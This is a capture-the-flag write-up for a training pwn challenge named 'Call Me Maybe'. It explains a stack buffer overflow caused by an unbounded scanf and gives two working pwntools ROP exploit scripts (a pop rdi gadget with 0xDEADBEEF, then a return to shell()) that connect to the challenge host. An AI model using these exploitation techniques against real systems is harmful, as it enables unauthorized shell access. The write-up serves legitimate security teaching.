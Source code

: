 # Call Me Maybe

---

### Challenge Description

> Want a shell? Just give it a call! You'll to show some verification though.

> Interact with the service at: 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg:3020

[callmemaybe.zip](https://github.com/caprinux/Cyberthon-2021-Training/files/6330465/callmemaybe.zip)

---

### Solution

Running the binary, we see that it takes in an input Contact, and calls the contact. Maybe you could try calling yourself on this service...

We look at our source code.

```c
void shell(int checker)

{
    char command[8] = "/bin/sh\x00";
    if (checker == 0xDEADBEEF) {
        system(command);
    } else {
        puts("Unauthorized.");
    }
}

int main()
{
    char contact[64];
    ... ... (some long useless ascii text)
    printf("Enter Contact => ");
    scanf("%s", contact);
    printf("Calling %s...\n", contact);
    return 0;
}

```

As we can see, it takes in an input with scanf, and does not limit the number of bytes of input. 

It stores our input into contact which only holds 64 bytes of input.

This gives us a buffer overflow.

We can also see that there is a `shell(int checker)` function which pops us a shell. This is probably our objective, to pop a shell on the remote service.

The function takes in an argument and check it against '0xDEADBEEF' to give us our shell.

How can we possibly call the shell function? If you are unsure, read this [shell](https://github.com/caprinux/Cyberthon-Training/tree/main/Livestream%20Training/shell) from Cyberthon live-stream training which talks about ret2win and goes in depth to explain it.

So the idea is that you can overflow Contact to overwrite return address and return to the Shell() function.

However, how do we send an argument to shell to pass the check and gives us our shell?

We have to go back to assembly and how arguments are taken in.

In AMD64, or 64 bit binaries, when any function is called, i.e. printf, scanf, puts etc. an argument is passed to the function. 

This argument is passed through registers, RDI, RSI, RDX.

In this case, since it only takes in 1 argument, and compares it, it will look something like this in assembly:

```asm
mov DWORD PTR [rbp-0x14], rdi
cmp DWORD PTR [rbp-0x14], 0xdeadbeef
```

The argument in RDI will be stored on the stack and compared against 0xDEADBEEF.

The question now is: How do we put an argument into the register? 

This is where [Return Oriented Programming](https://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html) comes in. 

The crux of the idea is that, our binary contains many small instructions that we can return to. These small instructions are called gadgets.

Since we know how to overflow the Contact variable and take control of the return address, if we can find a gadget that does `pop RDI ; ret`, we can return to that gadget, pop a value into rdi, and then call the shell function.

How do we find ROP gadgets then? This tool will be ur best friend,[ROPGadget Tool](https://github.com/JonathanSalwan/ROPgadget).

Now that we have everything, let's think about our exploit.

Contact holds 64 bytes. So to overflow contacts and reach our return address, we will need a buffer of 64 + 8 bytes.

Next, we find our pop rdi gadget. 

![image](https://user-images.githubusercontent.com/76640319/115134028-61418600-a03f-11eb-827b-727ff99031ac.png)

Got it. Our `pop RDI ; ret` gadget is at 0x400873.

Now we find the address of our shell function.

![image](https://user-images.githubusercontent.com/76640319/115134040-7b7b6400-a03f-11eb-8978-42d6357b0157.png)

Got it. Our shell function is at 0x4006ea. 

Let's also get a `ret` gadget to make things cleaner when we return to `pop rdi` after our main() function.

![image](https://user-images.githubusercontent.com/76640319/115134093-ecbb1700-a03f-11eb-984a-fba9f41f0885.png)

Got it. Our ret gadget is at 0x40055e

Let's craft our exploit now.

```py
from pwn import * # import pwntool library

p = remote('3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg', 30201) # connect to remote service

payload = ''

payload += b"A"*64 + b"A" * 8 # overflow our buffer
payload += p64(0x40055e) # ret gadget
payload += p64(0x400873) # pop rdi gadget
payload += p64(0xDEADBEEF) # argument
payload += p64(0x4006ea) # ret to shell function

p.sendline(payload) # send payload
p.interactive() # interact with service
```

![image](https://user-images.githubusercontent.com/76640319/115134169-70750380-a040-11eb-89d6-2bc0943cfe01.png)

```CTFSG{h3y_1_ju5t_m3t_y0u_but_1_g0t_sh3ll}```

---

### Teaser

Could you possibly automate and find all your gadgets at runtime? 

Here was my actual exploit script I used. 

```py
from pwn import *

p = remote('3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg', 30201)
context.binary = './callmemaybe'
elf = ELF('callmemaybe')
rop = ROP(elf)

poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]

ret = (rop.find_gadget(['ret']))[0]

p.sendline(b"A"*72 + p64(ret) + p64(poprdi) + p64(0xdeadbeef) + p64(elf.sym['shell']))

p.interactive()
```
